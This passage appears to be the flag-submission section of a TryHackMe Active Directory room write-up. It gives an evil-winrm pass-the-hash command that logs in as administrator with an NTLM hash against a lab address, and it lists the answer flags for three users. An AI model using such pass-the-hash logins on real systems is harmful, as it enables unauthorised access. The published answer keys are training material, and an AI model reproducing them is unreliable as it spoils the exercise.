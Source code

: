## Task 8 - Flag Submission Flag Submission Panel
Use `evil-winrm -i 10.10.191.55 -u administrator -H 0e0363213e37b94221497260b0bcb4fc` to connect to WinRM service. The flag is in the `C:\Users\<username>\Desktop` of each user

1. svc-admin<br>
    **Answer:** TryHackMe{K3rb3r0s_Pr3_4uth}

1. backup<br>
    **Answer:** TryHackMe{B4ckM3UpSc0tty!}

1. Administrator<br>
    **Answer:** TryHackMe{4ctiveD1rectoryM4st3r}
